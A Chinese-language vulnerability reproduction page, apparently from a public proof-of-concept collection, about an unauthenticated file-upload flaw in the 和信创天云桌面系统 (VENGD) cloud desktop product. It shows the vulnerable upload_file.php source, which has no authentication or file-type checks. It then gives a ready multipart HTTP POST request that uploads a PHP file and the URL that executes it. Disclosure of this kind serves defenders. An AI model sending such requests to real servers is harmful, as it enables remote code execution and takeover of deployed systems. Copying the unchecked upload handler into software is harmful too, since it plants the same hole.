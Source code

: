 # 和信创天云桌面系统 upload_file.php 远程命令执行漏洞

## 漏洞描述

和信创天云桌面系统存在默认配置导致文件上传并可以远程命令执行

## 漏洞影响

<a-checkbox checked>和信创天云桌面系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>和信下一代云桌面VENGD</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313160337842.png)



存在漏洞的文件为 `upload_file.php`

```python
<?php
function writeLog($msg){
    $logFile = date('Y-m-d').'.txt';
    $msg = date('Y-m-d H:i:s').' >>> '.$msg."\r\n";
    file_put_contents($logFile,$msg,FILE_APPEND );
}
//require("vesystem/msg_define/session_lib.php");
if ($_FILES["file"]["error"] > 0)
{
  //  echo "Return Code: " . $_FILES["file"]["error"] . "<br />";
}
else
{
    echo "_Requst:<br>";
        /*     foreach($_REQUEST as $name => $value)
            {
                 $name."=".$value."<br>";
            }
            //echo "_FILES:<br>";
            foreach($_FILES as $array_name=>$array_value)
            {    
            $array_name."=".$array_value."<br>";
                foreach($_FILES[$array_name] as $name => $value)
                {
                $name."=".$value."<br>";
                }
            } */
        $l = $_GET['l'];
        
        //拆分字符串按“/”分割字符
        $arrpath = explode("/",$l);
        $m = count($arrpath);
        
        
        $file_e = "";
        if ($m>1){
            for($i=0;$i<$m;$i++){
                $file_e .= $arrpath[$i];
                
                
                if(!file_exists($file_e)){
                    mkdir($file_e, 0777);
                }
                $file_e .= "/";
            }
            
        }else{
            
            //判断文件夹是否存在 ，不存在就新建个
            
            
            if(!file_exists($l)){
                mkdir("$l", 0777);
            }
        }
        
        
        
        $target_path=$_SERVER["DOCUMENT_ROOT"]."/Upload/".$l."/".$_FILES["file"]["name"];
       
       
        if (file_exists($target_path))
        {
            unlink($target_path);
        }
        
        
        $a = 'old_file='.$_FILES["file"]["tmp_name"];
        
        writeLog($a);
        writeLog('new_file='.$target_path);
    $target_path = str_replace ( '//', '/', $target_path );
    
    writeLog('new_file2='.$target_path);
    
   $varerror =  move_uploaded_file($_FILES["file"]["tmp_name"],$target_path);
    
    writeLog('$varerror='.$varerror);
}
?>
```



发送请求包如下

```plain
POST /Upload/upload_file.php?l=1 HTTP/1.1
Host: xxx.xxx.xx.xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/*,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,fil;q=0.8
Cookie: think_language=zh-cn; PHPSESSID_NAMED=h9j8utbmv82cb1dcdlav1cgdf6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfcKRltGv
Content-Length: 182

------WebKitFormBoundaryfcKRltGv
Content-Disposition: form-data; name="file"; filename="test.php"
Content-Type: image/avif

<?php phpinfo(); ?>
------WebKitFormBoundaryfcKRltGv--
```



访问

```plain
http://xxx.xx.xxx.xxx/Upload/1/test.php
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313160337610.png)